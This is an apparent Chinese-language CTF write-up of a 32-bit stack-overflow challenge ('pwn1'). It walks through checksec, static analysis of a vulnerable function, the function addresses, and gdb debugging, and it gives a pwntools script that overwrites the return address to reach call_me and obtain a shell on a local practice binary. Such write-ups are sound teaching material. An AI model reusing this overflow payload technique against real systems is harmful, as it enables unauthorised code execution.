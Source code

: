 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      CTF-Pwn1 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-08 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-6.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF PWN 逆向 栈溢出

---
```


# CTF-Pwn1

- 首先使用`checksec`工具进行检查：

![checksec](https://s3.bmp.ovh/imgs/2023/10/08/e3f579b58841907c.png)

![file](https://s3.bmp.ovh/imgs/2023/10/08/9795f93f6188b8bf.png)

​		可以发现，`pwn1`程序为32位，仅开启了DEP保护，动态链接。

- 然后使用ida64打开进行静态分析，可见`stack_overflow`函数存在漏洞，可以进行栈溢出攻击。

`main`：

![main](https://s3.bmp.ovh/imgs/2023/10/08/ed088b2f698bfb0b.png)

`stack_flow`：

![stack_flow](https://s3.bmp.ovh/imgs/2023/10/08/759eed2870a46761.png)

`call_me`：

![call_me](https://s3.bmp.ovh/imgs/2023/10/08/a6f33a1fa7490f95.png)

​		另外，发现内部有`call_me`函数，可知需要通过栈溢出覆盖返回地址为`call_me`函数地址。

- 上述函数地址：

| 函数名       | 地址       |
| ------------ | ---------- |
| `main`       | 0x080484C2 |
| `stack_flow` | 0x08048494 |
| `call_me`    | 0x0804846B |

- 使用gdb工具进行调试，可以查看栈的情况。![stack](https://s3.bmp.ovh/imgs/2023/10/08/4aedc8b2d9357d55.png)
- 构造python脚本进行动态调试：

`python`：

```python
from pwn import *

context(arch="i386", log_level="debug")
p = process("./pwn1")

call_me = 0x0804846B
leave = 0x080484C0

retn = 0x080484F4
payload = flat(b'a'*(0x28), retn, call_me)
p.recvuntil("Please finish pwn1!")
gdb.attach(p, 'b *0x080484C0')
p.send(payload)

p.interactive()
```

- 最终成功执行`call_me`函数，获取shell。

![result](https://s3.bmp.ovh/imgs/2023/10/08/99d7edda5ea57da7.png)


